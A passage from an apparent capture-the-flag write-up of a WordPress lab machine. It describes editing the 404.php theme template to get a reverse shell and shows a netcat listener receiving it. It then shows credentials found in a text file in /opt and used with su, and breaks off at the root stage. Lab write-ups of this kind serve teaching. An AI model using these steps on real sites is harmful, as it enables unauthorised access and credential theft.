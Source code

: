 Now we have access to the admin panel of wordpress!

## Foothold - User

Logging into WP-Admin, we can get a reverse shell using the 404.php template from the twentyseventeen theme.

And then we navigate to `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php` to get the connection!


```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.1.222] from (UNKNOWN) [10.10.170.6] 48948
bash: cannot set terminal process group (1075): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ whoami
www-data
```

We made a breakthrough, we already have one foot in the machine.

Looking through the files on the machine, we found a file containing the username and password of aubreanna!

```bash
www-data@internal:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:[REDACTED]
www-data@internal:/opt$ su aubreanna
Password: [REDACTED]

aubreanna@internal:/opt$ cat /home/aubreanna/user.txt 
[REDACTED]
```
We can log in with `su` and read the user flag.

## Root

In the `home` directory of `aubreanna` there is a note, let's read it
